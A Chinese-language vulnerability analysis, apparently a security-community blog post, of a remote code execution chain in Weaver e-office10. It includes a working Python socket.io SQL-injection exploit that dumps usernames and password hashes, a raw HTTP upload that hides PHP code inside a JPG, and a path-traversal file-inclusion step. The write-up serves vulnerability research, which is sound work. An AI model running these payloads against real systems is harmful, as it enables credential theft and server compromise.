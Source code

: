 

# 泛微 e-office10 远程代码执行漏洞分析 - 先知社区

泛微 e-office10 远程代码执行漏洞分析

- - -

根据微步描述知道是 im 服务的洞`https://mp.weixin.qq.com/s/4om8iuGpAKWPjEocBB4lKQ`

```bash
2、临时修复方案：

1.使用防护类设备对相关资产进行 SQL 注入、文件包含等攻击的防护；
2.在确认不影响业务的情况下可临时关闭 im 服务，或使用网络 ACL 策略限制 im 服务的公网访问。
```

[![](assets/1701678462-0f518ff6588e2e68f43c1d326db97f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201145-7722c0bc-8eb0-1.png)

[![](assets/1701678462-6d326128f9ad8637d0722051a06ea575.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201149-7956b8fc-8eb0-1.png)

得到 nodejs 的 server 路径。没混淆什么的。diff 一下

知道是`getPersonalOfflineRecord`的问题

[![](assets/1701678462-fbf02069a388dd929891da90aa859f66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201153-7ba2c934-8eb0-1.png)

socket 事件为`outline recordLength`时触发。

[![](assets/1701678462-cc4ab89f40c4c8e1bfdd0f48cda2fbd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201159-7f07bf58-8eb0-1.png)

```bash
loginUserId 是 query 传进来的
```

[![](assets/1701678462-b68e5234dbb3a9a366f13e0422bf4c50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201238-96bef2a6-8eb0-1.png)

```bash
继续跟 connectToSocket
```

[![](assets/1701678462-78b9aca7bec32a1d23a26bb2371e82f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201244-9a488824-8eb0-1.png)

这里的`/web`是`websocket`的`namespace`

`outline recordLength`是事件

python 连接 websocket 代码如下

有个坑。。。`socketio`报错可能需要装特定版本才能连上。不然会有`OPEN packet not returned by server`报错

`pip install python-engineio==3.14.2 python-socketio==4.6.0`

```bash
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')
#发送事件
@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))
#用来接收返回值

sio.connect('http://192.168.0.139:4986?loginUserId=admin&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

现在主要来看`outline recordLength`事件的处理

`personalRecordTableNameArray`为查询`information_schema.tables`中`chat_personal_record`开头的表

chat\_personal\_record 开头的表默认只有`chat_personal_record`。需要自己新建账号。聊天几句就会创建`chat_personal_record_1`等。后面有用。

[![](assets/1701678462-29f88253dc37e998bf56327d1d3cc3ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201256-a13d5150-8eb0-1.png)

这里就判断了。数据库中的表是否有`chat_personal_record_0、1、2、3`。如果没有就不会继续执行变量赋值了。下面的所有`sql`都依赖于这

[![](assets/1701678462-b1fc96526343b84884f0d88a39e72a9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201301-a4370a72-8eb0-1.png)

之后就是直接带入 sql 执行了。然后返回值。

[![](assets/1701678462-97852c6435d7fc08fe9c5c6da13a04d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201305-a6839660-8eb0-1.png)

最终 exp 如下

```bash
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')

@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))


sio.connect('http://192.168.0.139:4986?loginUserId=aa",`chat_object`) union select 1,2,3,group_concat(user_accounts,0x7e,password,0x7e) ,5,6,0,8,9,10,11,12 from user%23&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

[![](assets/1701678462-4bded688de7f94162f1d1819bc7fac5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201311-aa160ac4-8eb0-1.png)

这里 password 是 md5(unix)。要解。解不出来就没用。或者还有其他的接口可以直接 MD5 登录？

登录后之后文件包含利用。长亭之前也发过一个。抓过接口。

```bash
POST /eoffice10/server/public/api/welink/welink-move HTTP/1.1
Host: 192.168.0.139:8010
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.139:8010/eoffice10/client/web/system/user/manage
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvQIRygBK
Content-Length: 8003

------WebKitFormBoundaryvQIRygBK
Content-Disposition: form-data; name="file"; filename="1.phP"
Content-Type: image/png

jpg 文件内容 + 后面<?php xxxx
------WebKitFormBoundaryvQIRygBK--
```

只有内容校验。jpg 的。但是直接 php 不能上传 有过滤

并且上传在 attachment 目录不能直接访问

至于为啥这里要用 phP 下面再说

[![](assets/1701678462-30d2fbbf4eac531163ebca637c03e594.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201316-ad545d26-8eb0-1.png)

返回包对应的 attachment 目录为`attachment\2023\11\29\8de8701f16a64d88f5fda3ad1b3f5375\1.phP`

```bash
HTTP/1.1 200 OK
Date: Wed, 29 Nov 2023 10:14:22 GMT
Server: Apache
Cache-Control: no-cache, private
Connection: close
Content-Type: application/json
Content-Length: 2702

{"status":1,"data":[{"attachmentId":"8de8701f16a64d88f5fda3ad1b3f5375","attachmentName":"1.phP","attachmentThumb":"data:image\/jpg;base64,\/xxxxxxxx","attachmentSize":7841,"attachmentType":"jpg","attachmentMark":1}],"runtime":"0.170"}
```

这里文件上传就搞定了。接着看文件包含。搜`require(.*?)\$`搜到`getArrayFromPhp`

[![](assets/1701678462-508fcdca2babeabe1827713381086411.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201321-b037d00e-8eb0-1.png)

这里看`getLangFileFullPath`的实现和上层调用`$local, $module`是否可控

[![](assets/1701678462-bb1cd475d0e11fd2fd965f24955c0401.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201325-b2a22358-8eb0-1.png)

先看方法实现。`$this->serverLangSuffix`是`.php` 并且`getServerLangFolder`是获取`eoffice10\server\resources`目录。所以只要`$filename`可控。就能`../../`配合 1.php 文件包含。由于泛微 E-office 只能 Windows 下部署 (官网试用只有 exe。咱也不知道有无 Linux 版)

[![](assets/1701678462-fa08e1ac750ff89280bc99a368ca880c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201331-b60b76d4-8eb0-1.png)

由于 Windows 下大小写不分。上传`1.phP`。包含`1.php`可以包含到。。ok 接着回头看`getPhpLangArrayByModule`上层调用的`$module`

继续跟进`getServerStaticLangsByModule`

[![](assets/1701678462-545895358f33d5566bfa087dc5d1e0b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201337-b9a45f04-8eb0-1.png)

module 可控。并且有定义路由

[![](assets/1701678462-9a8b88f4d07cdfcb26997943d9e43942.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201341-bc033586-8eb0-1.png)

带上登录的 Authorization 直接文件包含

[![](assets/1701678462-1d386186b50073a279ff59ac761674f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201345-be3fa42e-8eb0-1.png)
